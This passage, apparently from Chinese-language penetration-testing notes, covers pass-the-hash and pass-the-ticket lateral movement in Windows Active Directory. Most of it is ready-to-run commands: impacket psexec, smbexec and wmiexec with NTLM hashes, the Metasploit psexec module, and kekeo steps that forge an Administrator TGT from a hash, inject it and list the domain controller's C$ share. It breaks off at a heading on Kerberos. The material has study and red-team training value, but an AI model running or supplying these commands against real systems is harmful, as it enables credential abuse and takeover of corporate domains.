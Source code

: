 **使用impacket软件包**

```bash
psexec.py -hashes :<hash> 域/域用户名@目标IP
smbexec.py -hashes :<hash> 域/域用户名@目标IP
wmiexec.py -hashes :<hash> 域/域用户名r@目标IP whoami
```

**MSF模块**

```bash
use exploit/windows/smb/psexec

#关键设置
set SMBPass <LM Hash>:<NTML Hash>
```

# 票据传递攻击

> 票据传递（Pass the Ticket，PtT），使用 Kerberos票据，不需要管理员权限，攻击有效期是在票据有效期之内(一般为7天)。
>
> 在微软活动目录中颁发的TGT是可移植的，由于Kerberos的无状态特性，TGT中并没有关于票据来源的标识信息。
>
> 这意味着可以从某台计算机上导出一个有效的TGT，然后导入到该环境中其他的计算机上。
>
> 新导入的票据可以用于域的身份认证，并拥有票据中指定用户的权限来访问网络资源。

工具kekeo：https://github.com/gentilkiwi/kekeo/releases 

（1）在当前目录生成一个高权限票据文件

```bash
kekeo.exe "tgt::ask /user:Administrator /domain:wintrysec.lab /ntlm:f3a0acba8bcfb8a0896281bbfcb793ed" exit
```

（2）使用系统自带命令，清除内存中的票据

```baash
klist purge
```

（3）将票据文件导入内存

```bash
kekeo "kerberos::ptt TGT_administrator@WINTRYSEC.LAB_krbtgt~wintrysec.lab@WINTRYSEC.LAB.kirbi" exit
```

（4）列出远程主机的文件

```bash
dir \\DC\c$
```

`比较典型的金票和银票留域后门就是票据传递攻击`

# Kerberos认证协议
